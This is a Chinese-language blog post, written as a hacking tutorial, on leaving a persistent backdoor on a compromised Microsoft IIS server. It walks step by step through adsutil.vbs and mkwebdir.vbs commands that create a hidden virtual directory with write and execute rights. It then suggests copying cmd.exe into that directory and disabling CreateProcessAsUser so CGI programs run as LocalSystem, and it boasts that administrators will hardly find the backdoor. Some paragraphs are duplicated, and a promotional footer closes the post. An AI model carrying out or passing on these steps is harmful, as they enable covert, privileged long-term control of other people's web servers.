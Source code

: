 ```yaml
---
layout: post
category: curleyg-code-hack
title: 真正的IIS永远的后门解密
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 真正的IIS永远的后门解密
lock: need
---
```


# 真正的IIS永远的后门解密

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。不过一个比较防范严密的www站点（他们的管理员吃了苦头后）一般通过防火墙对端口进行限制，这样除了管理员开的端口外，其他端口就不能连接了。但是80端口是不可能关闭的（如果管理员没有吃错药）。那么我们可以通过在80端口留后门，来开启永远的后门。

当IIS启动CGI应用程序时，缺省用CreateProcessAsUser API来创建该CGI的新Process,该程序的安全上下文就由启动该CGI的用户决定。一般匿名用户都映射到IUSR_computername这个账号，当然可以由管理员改为其他的用户。或者由浏览器提供一个合法的用户。两者的用户的权限都是比较低，可能都属于guest组的成员。其实我们可以修改iis开启CGI的方式，来提高权限。我们来看iis主进程本身是运行在localsystem账号下的，所以我们就可以得到最高localsystem的权限。

入侵web服务器后，一般都可以绑定一个cmd到一个端口来远程控制该服务器。这时可以有GUI的远程控制，比如338Array，或者类telnet text方式的控制，比如rnc。nc肯定是可以用的,其实这也足够了。

1. telnet到服务器

2.cs cript.exe adsutil.vbs enum w3svc/1/root

```bash
KeyType : (STRING) "IIsWebVirtualDir"
AppRoot : (STRING) "/LM/W3SVC/1/ROOT"
AppFriendlyName : (STRING) "默认应用程序"
AppIsolated : (INTEGER) 2
AccessRead : (BOOLEAN) True
AccessWrite : (BOOLEAN) False
AccessExecute : (BOOLEAN) False
Accesss cript : (BOOLEAN) True
AccessSource : (BOOLEAN) False
AccessNoRemoteRead : (BOOLEAN) False
AccessNoRemoteWrite : (BOOLEAN) False
AccessNoRemoteExecute : (BOOLEAN) False
AccessNoRemotes cript : (BOOLEAN) False
HttpErrors : (LIST) (32 Items)
"400,*,FILE,C:\WINNT\help\iisHelp\common\400.htm"
"401,1,FILE,C:\WINNT\help\iisHelp\common\401-1.htm"
"401,2,FILE,C:\WINNT\help\iisHelp\common\401-2.htm"
"401,3,FILE,C:\WINNT\help\iisHelp\common\401-3.htm"
"401,4,FILE,C:\WINNT\help\iisHelp\common\401-4.htm"
"401,5,FILE,C:\WINNT\help\iisHelp\common\401-5.htm"
"403,1,FILE,C:\WINNT\help\iisHelp\common\403-1.htm"
"403,2,FILE,C:\WINNT\help\iisHelp\common\403-2.htm"
"403,3,FILE,C:\WINNT\help\iisHelp\common\403-3.htm"
"403,4,FILE,C:\WINNT\help\iisHelp\common\403-4.htm"
"403,5,FILE,C:\WINNT\help\iisHelp\common\403-5.htm"
"403,6,FILE,C:\WINNT\help\iisHelp\common\403-6.htm"
"403,7,FILE,C:\WINNT\help\iisHelp\common\403-7.htm"
"403,8,FILE,C:\WINNT\help\iisHelp\common\403-8.htm"
"403,9,FILE,C:\WINNT\help\iisHelp\common\403-9.htm"
"403,10,FILE,C:\WINNT\help\iisHelp\common\403-10.htm"
"403,11,FILE,C:\WINNT\help\iisHelp\common\403-11.htm"
"403,12,FILE,C:\WINNT\help\iisHelp\common\403-12.htm"
"403,13,FILE,C:\WINNT\help\iisHelp\common\403-13.htm"
"403,15,FILE,C:\WINNT\help\iisHelp\common\403-15.htm"
"403,16,FILE,C:\WINNT\help\iisHelp\common\403-16.htm"
"403,17,FILE,C:\WINNT\help\iisHelp\common\403-17.htm"
"404,*,FILE,C:\WINNT\help\iisHelp\common\404b.htm"
"405,*,FILE,C:\WINNT\help\iisHelp\common\405.htm"
"406,*,FILE,C:\WINNT\help\iisHelp\common\406.htm"
"407,*,FILE,C:\WINNT\help\iisHelp\common\407.htm"
"412,*,FILE,C:\WINNT\help\iisHelp\common\412.htm"
"414,*,FILE,C:\WINNT\help\iisHelp\common\414.htm"
"500,12,FILE,C:\WINNT\help\iisHelp\common\500-12.htm"
"500,13,FILE,C:\WINNT\help\iisHelp\common\500-13.htm"
"500,15,FILE,C:\WINNT\help\iisHelp\common\500-15.htm"
"500,100,URL,/iisHelp/common/500-100.asp"

FrontPageWeb : (BOOLEAN) True
Path : (STRING) "c:\inetpub\wwwroot"
AccessFlags : (INTEGER) 513
[/w3svc/1/root/localstart.asp]
[/w3svc/1/root/_vti_pvt]
[/w3svc/1/root/_vti_log]
[/w3svc/1/root/_private]
[/w3svc/1/root/_vti_txt]
[/w3svc/1/root/_vti_s cript]
[/w3svc/1/root/_vti_cnf]
[/w3svc/1/root/_vti_bin]
```

不要告诉我你不知道上面的输出是什么！！！！
现在我们心里已经有底了，是不是！呵呵 管理员要倒霉了

3. mkdir c:\inetpub\wwwroot\dir1
4. cs cript.exe mkwebdir.vbs -c MyComputer -w "Default Web Site" -v "Virtual Dir1","c:\inetpub\wwwroot\dir1"

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

5.接下来要改变一下Virtual Dir1的属性为execute

```bash
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accesswrite "true" -s:
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accessexecute "true" -s:
```

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

6.以下命令通过修改iis metabase 来迫使iis以本身的安全环境来创建新的CGI process

```bash
Cs cript adsutil.vbs set /w3svc/1/root/[your directory]/createprocessasuser false
注释：cs cript windows s cript host.
adsutil.vbs windows iis administration s cript
```

后面是 iis metabase path
这样的后门几乎是无法查出来的，除非把所有的虚目录察看一遍（如果管理员写好了遗书，那他就去查吧）

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
